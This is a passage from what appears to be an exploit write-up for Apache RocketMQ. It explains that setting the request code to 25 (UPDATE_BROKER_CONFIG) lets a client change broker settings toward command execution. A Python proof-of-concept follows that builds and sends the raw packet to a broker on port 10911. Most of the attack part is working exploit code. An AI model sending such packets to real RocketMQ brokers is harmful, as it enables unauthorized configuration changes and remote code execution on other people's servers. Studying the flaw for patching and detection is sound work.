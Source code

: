 - The value corresponding to the field can be found in the `org.apache.rocketmq.remoting.protocol.RequestCode` class. You can see that the value of the `code` field of `UPDATE_BROKER_CONFIG` is `25`

![](images/9.png)

- Therefore, different functions can be called by adjusting the value of the `code` field, and the purpose of command execution can be achieved by sending set data packets.

```python
import socket, binascii

client = socket.socket()
client.connect(('127.0.0.1', 10911))

json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')

json_lens = int(len(binascii.hexlify(json).decode('utf-8')) / 2)
part1 = '0000000' + str(hex(json_lens))[2:]
all_lens = int(4 + len(binascii.hexlify(body).decode('utf-8')) / 2 + json_lens)
part2 = '0000000' + str(hex(all_lens))[2:]
data = part2[-8:] + part1[-8:] + binascii.hexlify(json).decode('utf-8') + binascii.hexlify(body).decode('utf-8')

client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```